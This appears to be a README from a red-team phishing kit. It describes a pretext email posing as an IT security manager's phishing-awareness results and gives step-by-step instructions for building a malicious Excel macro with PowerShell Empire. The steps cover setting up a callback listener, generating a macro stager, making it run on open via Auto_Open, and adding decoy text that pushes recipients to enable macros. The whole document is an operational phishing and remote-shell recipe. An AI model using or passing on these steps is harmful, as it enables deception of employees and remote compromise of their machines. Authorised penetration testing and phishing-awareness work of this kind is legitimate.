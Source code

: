 # Phishing Awareness Training Email 

** Objective:** Shell

## Pretext: 
You are an IT Security Manager, or IT Admin who has reciently conducted a phishing awareness campaign against your company. You are asking users to read through the email for phishing awareness and to download and view the results of the phishing campaign. The excel document needs macros enabled to view the results

## To Change:
Create your own macros (Empire is easiest) to call back. 

## Creating a malicious Macros via Empire
1. Installing Empire
  a. git clone git@github.com:PowerShellEmpire/Empire.git
  b. ./setup/install.sh
2. Starting up a listener:
  a. set host <listening host:port>
  b. set whatever parameters you want on this, just type 'info'
  c. 'execute'
3. Generating the Macro
  a. usestager macro
  b. set listener <listener number>
  c. 'execute'
  d. copy the output function
4. Inserting the macro
  a. Open Excel > New Document > 'alt+F11' will get you to the macros
  b. Double-clck on "This Workbook"
  c. Paste in the macro function from Empire
  d. Change the Sub call to 'Auto_Open()'
  e. Add the line 'Dim str As String' to the top of the Debugging function call before the powershell call.
  f. Go back to the spreadsheet and add in whatever content you want. I like to add in random strings and at the top say that macros needs enabled to view the content. Helps with the pretext.
